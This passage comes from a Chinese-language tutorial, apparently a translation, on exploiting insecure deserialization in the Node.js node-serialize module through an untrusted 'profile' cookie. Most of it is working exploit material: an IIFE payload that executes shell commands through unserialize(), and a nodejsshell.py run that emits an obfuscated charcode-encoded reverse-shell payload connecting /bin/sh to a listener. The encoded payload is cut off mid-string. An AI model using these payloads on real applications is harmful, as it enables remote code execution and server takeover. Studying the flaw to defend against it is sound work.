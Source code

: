 获得以下输出

[![](https://p5.ssl.qhimg.com/t01e4a702b5af90d4af.png)](https://p5.ssl.qhimg.com/t01e4a702b5af90d4af.png)

IIFE工作正常，但序列化失败。所以我试图在以前序列化的字符串的函数体后添加括号()。并将其传递给unserialize()函数，幸运的它成功了。所以我们有Exploit Payload：



```
`{`"rce":"_$$ND_FUNC$$_function ()`{`n t
require('child_process').exec('ls /', function(error, stdout, stderr) `{`
console.log(stdout) `}`);n `}`()"`}`
```

将它传递给unserialize()函数将导致代码执行。



```
var serialize = require('node-serialize');
var payload = '`{`"rce":"_$$ND_FUNC$$_function
()`{`require('child_process').exec('ls /',
function(error, stdout, stderr) `{` console.log(stdout)
`}`);`}`()"`}`';
serialize.unserialize(payload);
```

演示：

[![](https://p0.ssl.qhimg.com/t0187708caa10e2dd98.png)](https://p0.ssl.qhimg.com/t0187708caa10e2dd98.png)

现在我们知道我们可以利用node-serialize模块中的unserialize()函数。现在让我们来利用漏洞生成一个反向shell。

<br>

**Further Exploitation**

Web应用程序中的漏洞是它从HTTP请求中读取名为profile的cookie，对cookie值执行base64解码，并将其传递给unserialize()函数。由于cookie是不受信任的输入，攻击者可以制作恶意Cookie值以利用此漏洞。

我使用nodejsshell.py生成反向shell有效负载。



```
$ python nodejsshell.py 127.0.0.1 1337
[+] LHOST = 127.0.0.1
[+] LPORT = 1337
[+] Encoding
eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,10
5,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,3
2,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,11
5,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,50,55,46,48,46,48,46,
49,34,59,10,80,79,82,84,61,34,49,51,51,55,34,59,10,84,73,77,69,79,85,84,61,34,53,4
8,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103
,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,6
1,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,11
0,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,3
2,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,1
14,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,3
2,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,8
4,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32
,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,3
2,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,
83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,3
2,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,1
04,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114
,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,
32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,11
6,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,11
6,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,1
```